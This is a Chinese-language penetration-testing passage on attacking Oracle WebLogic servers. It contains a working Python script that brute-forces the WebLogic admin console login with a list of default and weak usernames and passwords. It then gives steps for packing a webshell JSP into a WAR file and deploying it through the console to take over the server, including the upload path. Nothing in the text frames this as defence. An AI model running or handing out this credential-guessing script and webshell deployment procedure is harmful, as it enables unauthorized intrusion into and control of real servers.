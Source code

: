 
弱口令爆破的python脚本：

```
import requests

class WebLogic:
    def __init__(self, url):
        if '://' not in url:
            url = 'http://' + url
        self.url = url.strip('/')
    def weakPasswd(self):
        """weak password"""

        pwddict = ['WebLogic', 'weblogic', 'Oracle@123', 'password', 'system', 'Administrator', 'admin', 'security', 'joe', 'wlcsystem', 'wlpisystem']
        for user in pwddict:
            for pwd in pwddict:
                data = {
                    'j_username':user,
                    'j_password':pwd,
                    'j_character_encoding':'UTF-8'
                }
                req = requests.post(self.url+':7001/console/j_security_check', data=data, allow_redirects=False, verify=False)

                if req.status_code == 302 and 'console' in req.text and 'LoginForm.jsp' not in req.text:
                    print('[+] WebLogic username: '+user+'  password: '+pwd)

if __name__ == '__main__':
    url = '192.168.1.1'
    wls = WebLogic(url)
    wls.weakPasswd()
```

---
### 0x02 weblogic后台提权

#### (1)将大马封装成war包

大马`1.jsp`位于目录test中，生成test.war的命令如下：

```
jar -cvf test.war ./test/*
```

#### (2)上传大马

登陆weblogic后台`http://<ip>:7001/console`，点击左侧的`部署`，在弹出来的右侧页面点击`安装`

在安装页面选择`上载文件`,将打包好的包含大马的war包上传至服务器

大马保存到路径为:`/root/Oracle/Middleware/user_projects/domains/weblogic/servers/AdminServer/upload`
